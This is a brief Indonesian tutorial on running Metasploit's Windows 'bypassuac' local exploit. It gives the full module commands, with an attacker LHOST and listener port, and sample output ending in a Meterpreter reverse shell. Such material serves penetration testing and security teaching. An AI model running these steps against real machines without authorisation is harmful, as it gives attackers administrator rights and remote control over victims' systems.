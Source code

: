 # bypassuac

Modul `bypassuac` di Metasploit adalah modul `exploit local` untuk sistem Windows yang digunakan untuk melewati mekanisme User Account Control (`UAC`), memungkinkan eskalasi hak akses dari user biasa ke level `administrator` tanpa memunculkan prompt izin `UAC` pada target yang telah dikompromi.

## Cara Penggunaan di Metasploit

```
use exploit/windows/local/bypassuac
set SESSION <ID>
set TECHNIQUE EXE
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] UAC is Enabled, checking level...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[*] Uploaded the agent to the filesystem....
[*] Uploading the bypass UAC executable to the filesystem...
[*] Meterpreter stager executable 73802 bytes long being uploaded..
[*] Sending stage (177734 bytes) to 192.168.1.53
[*] Meterpreter session 7 opened (192.168.1.11:4444 -> 192.168.1.53:49166) at 2025-05-17 05:10:35 +0700

meterpreter >
```
